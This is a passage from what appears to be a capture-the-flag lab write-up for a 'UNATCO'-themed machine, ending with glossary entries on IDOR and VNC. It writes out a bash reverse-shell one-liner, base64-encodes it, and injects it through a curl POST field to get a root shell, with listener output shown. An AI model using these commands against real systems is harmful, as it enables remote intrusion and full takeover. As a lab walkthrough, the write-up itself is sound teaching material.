 `nano shellroot.txt`

```jsx
/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1
```

`cat shellroot.txt | base64`

```jsx
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo=
```

`curl -iLX $'POST' -D unatcoresponse.txt -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' --data-binary 'directive=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIuMzcuMzcvMTEyMjIgMD4mMQo= | base64 -d | bash' http://UNATCO:23023`

```jsx
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.41.58] 44260
bash: cannot set terminal process group (627): Inappropriate ioctl for device
bash: no job control in this shell
root@unatco-cmd:/# whoami
whoami
root
root@unatco-cmd:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@unatco-cmd:/#
```

# **Appendix**

## Insecure Direct Object Reference (IDOR)

<aside>
💡

Insecure Direct Object Reference (IDOR) is a security vulnerability that occurs when an application exposes direct access to objects (such as database records or files) based on user-supplied input, without properly verifying the user’s authorization to access those resources. This vulnerability allows attackers to manipulate input to access data or resources that they are not authorized to view or modify.

</aside>

## VNC (Virtual Network Computing) Protocol

<aside>
💡

The VNC (Virtual Network Computing) Protocol is a graphical desktop-sharing protocol that allows users to remotely control another computer's desktop interface. VNC transmits the keyboard and mouse inputs from one computer to another, and it relays the graphical screen updates from the remote system back to the client. This enables users to view and interact with a remote desktop environment as though they were physically present at that computer.

</aside>